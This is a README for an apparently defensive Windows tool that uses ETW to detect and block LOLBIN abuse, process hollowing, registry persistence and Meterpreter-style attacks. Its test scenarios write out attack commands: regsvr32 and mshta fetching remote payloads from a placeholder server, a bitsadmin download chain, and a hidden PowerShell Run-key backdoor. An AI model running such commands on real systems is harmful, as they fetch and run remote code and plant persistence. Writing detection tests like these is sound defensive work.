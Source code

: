 # usermodeapplicationlol

## Overview

**usermodeapplicationlol.exe** is a user-mode Windows security monitor designed to detect, block, and log advanced attack techniques, including Meterpreter, Volt Typhoon, and LOLBIN-based attacks. It leverages ETW (Event Tracing for Windows) for real-time monitoring, and enforces user/admin intervention via OTPs for suspicious actions.

---

## Key Security Features

- **ETW-based Monitoring:**
  - Process creation, memory operations, DLL loads, and registry changes
- **LOLBIN & Suspicious Command Detection:**
  - Detects and blocks dangerous use of built-in Windows binaries
- **PowerShell Deobfuscation:**
  - Decodes and analyzes obfuscated/encoded PowerShell commands
- **Process Hollowing Detection:**
  - Compares in-memory and on-disk hashes to detect hollowed processes
- **Registry Persistence Rollback:**
  - Detects and deletes unauthorized persistence attempts in the registry
- **OTP Enforcement:**
  - Requires user/admin OTPs for suspicious or malicious actions
- **Thread-safe Logging:**
  - Logs all events, malicious events, and invalid OTP attempts
- **Python ML/Heuristic Analysis:**
  - Uses `analyze.py` for advanced command-line analysis

---

## Defense Matrix

| Attack Technique         | Detection & Response                                      |
|-------------------------|----------------------------------------------------------|
| Process Injection       | Memory operation monitoring, suspend/terminate           |
| Reflective DLL Loading  | DLL load monitoring, terminate                           |
| PowerShell Obfuscation  | Deobfuscation engine, log/block                          |
| Registry Persistence    | Registry change monitoring + rollback                    |
| Process Hollowing       | Memory/disk image hash comparison, terminate             |
| Fileless Execution      | Memory scanning + PowerShell deobfuscation, block/OTP    |
| LOLBIN Usage            | Pattern matching, suspend/OTP/terminate                  |

---

## Build Instructions

1. **Requirements:**
   - Visual Studio (Windows, C++17 or later)
   - Python 3.x (for analyze.py and dependencies)
   - All source files in this repo
2. **Build:**
   - Open the solution in Visual Studio
   - Build the `usermodeapplicationlol` project in Release|x64
   - Build `otpverify.exe` (standalone OTP checker)

---

## Usage

1. **Run `usermodeapplicationlol.exe` as Administrator**
2. **Ensure `otpverify.exe` is in the same directory or PATH**
3. **Logs:**
   - `log_all.txt` — all events
   - `log_otp_correct_malicious.txt` — malicious events with correct OTP
   - `log_otp_incorrect.txt` — invalid OTP attempts

---

## Example Test Scenarios

### LOLBINs
- **PowerShell Encoded Command:**
  ```powershell
  powershell.exe -EncodedCommand SQBFAFgAIAAnAEgAZQBsAGxvACcA
  ```
- **regsvr32 Remote Script:**
  ```cmd
  regsvr32.exe /s /n /u /i:http://<server-ip>/shell.sct scrobj.dll
  ```
- **mshta Fileless Payload:**
  ```cmd
  mshta.exe http://<server-ip>/payload.hta
  ```

### Volt Typhoon
- **Registry Persistence:**
  ```powershell
  Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'powershell.exe -nop -w hidden -EncodedCommand ...'
  ```
- **Chained LOLBINs:**
  ```cmd
  cmd.exe /c "bitsadmin /transfer ... && mshta.exe http://<server-ip>/payload.hta"
  ```

### Meterpreter
- **Reflective DLL Injection:**
  - Use Metasploit to inject `metsrv.dll` or `ReflectiveLoader` into a process.
- **Process Hollowing:**
  - Use Metasploit’s process hollowing technique.
- **Fileless Meterpreter via PowerShell:**
  ```powershell
  powershell.exe -nop -w hidden -EncodedCommand <meterpreter stager>
  ```

---

## Notes
- **For testing only in isolated/lab environments.**
- **OTP codes and admin codes are demo values; replace with your own for production.**
- **For advanced detection, ensure Python and all dependencies are installed.**

---

## License
This project is for educational and research use only. 